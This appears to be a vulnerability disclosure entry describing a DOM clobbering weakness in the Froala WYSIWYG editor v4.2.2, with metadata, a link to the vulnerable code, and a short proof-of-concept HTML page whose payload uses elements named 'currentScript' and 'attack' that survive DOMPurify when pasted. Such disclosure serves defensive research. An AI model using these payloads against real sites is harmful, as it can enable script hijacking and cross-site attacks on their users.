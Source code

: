 ## Froala

### Meta

+ Library: Froala
+ Version: v4.2.2
+ Stars: 5.3K
+ Fingerprint: `document.getElementsByClassName('fr-box').length > 0`
+ Input: Copy&Paste
+ Sanitizer: DOMPurify
+ Capability: Any `name` attributes
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/froala/wysiwyg-editor/tree/master/js/plugins

### Vulnerable Code Snippet

https://github.com/froala/wysiwyg-editor/blob/3b01fafe167d2dd8adf3c124c377930db13c90fc/html/paste/attrs.html#L42

### PoC 

```html
<!--Library-->
<link href="https://cdn.jsdelivr.net/npm/froala-editor@latest/css/froala_editor.pkgd.min.css" rel="stylesheet" type="text/css" />

<textarea></textarea>

<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/froala-editor@latest/js/froala_editor.pkgd.min.js"></script>

<script>
  new FroalaEditor('textarea');
</script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and check the editor in the debugging console.</p>
<!--Payload-->
```